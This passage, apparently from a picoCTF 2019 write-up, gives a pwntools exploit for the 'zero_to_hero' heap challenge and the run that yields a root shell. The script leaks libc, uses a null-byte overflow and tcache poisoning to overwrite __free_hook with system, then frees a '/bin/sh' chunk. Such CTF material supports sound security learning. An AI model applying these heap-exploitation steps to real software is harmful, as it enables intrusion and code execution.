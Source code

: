 ```python
    p.sendlineafter('> ','2')
    p.sendlineafter('> ',str(idx))

def die():
    p.sendlineafter('> ','3')

p.sendlineafter('?\n','y')

for i in xrange(2):
    p.recvline()

system = int(p.recvline().strip().split(' ')[-1],16)
libc.address = system-libc.symbols['system']

log.success('libc base at: '+hex(libc.address))
log.success('system at: '+hex(system))
log.success('free hook at: '+hex(libc.symbols['__free_hook']))

malloc(0x18,'a') # First chunk
malloc(0x118,'b') # Second chunk
malloc(0x118,'c') # third chunk (just for tcache count)

free(0) # goes to 0x20 tcache bin
free(2) # goes to 
free(1) # 0x120 tcache bin

malloc(0x18,'A'*0x18) #Allocate chunk 1 back from 0x20 tcache bin and do null byte overflow.
free(1) # chunk 2 size changed to 0x100 so we can double free it.

malloc(0xf8,p64(libc.symbols['__free_hook'])) # tcache poisoning
malloc(0x118,'/bin/sh\x00')
malloc(0x118,p64(libc.symbols['system'])) # malloc returns &__free_hook
free(1) # system("/bin/sh")

p.interactive()
```

Running the exploit -
```console
root@kali:~/bak/picoctf-2019/zero_to_hero# python exp.py 
[+] Starting local process './zero_to_hero': pid 965814
[*] '/root/bak/picoctf-2019/zero_to_hero/zero_to_hero'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    RUNPATH:  './'
[*] '/lib/x86_64-linux-gnu/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] libc base at: 0x7fb33f4df000
[+] system at: 0x7fb33f525ff0
[+] free hook at: 0x7fb33f69b5a8
[*] Switching to interactive mode
$ id
uid=0(root) gid=0(root) groups=0(root)
```
